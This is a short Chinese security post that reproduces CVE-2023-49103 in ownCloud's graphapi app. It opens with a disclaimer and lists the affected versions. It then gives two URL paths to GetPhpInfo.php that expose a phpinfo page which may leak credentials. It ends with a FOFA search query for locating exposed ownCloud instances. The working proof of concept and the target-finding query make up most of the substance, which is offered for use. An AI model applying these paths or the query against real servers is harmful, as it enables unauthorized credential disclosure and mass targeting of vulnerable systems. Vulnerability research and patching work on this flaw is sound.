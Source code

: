 #  OwnCloud敏感信息泄漏漏洞复现-CVE-2023-49103   
小白菜安全  小白菜安全   2024-01-07 19:43  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
- owncloud/graphapi 0.2.x < 0.2.1  
  
- owncloud/graphapi 0.3.x < 0.3.1  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1bLFrTxtOjBEqNUJ2micOfMshJTqf1kxFY8uwrNRQfbJ3HHR57sPkw1K7iaZaBNaicUZqpIAGXMPXZg/640?wx_fmt=png&from=appmsg "")  
#  漏洞复现  
  
漏洞poc  
```
url+/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php
url+/owncloud/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php
```  
  
出现phpinfo页面代表漏洞存在,该页面可能泄漏了账号密码信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1bLFrTxtOjBEqNUJ2micOfMxcxJLwOHxkM3c6LGNq5Kr8nPZtOEMaibf0ibfDyx7OFCuJn1gCqn7Evw/640?wx_fmt=png&from=appmsg "")  
#  搜索语法  
  
**fofa：app="ownCloud"**  
  
  
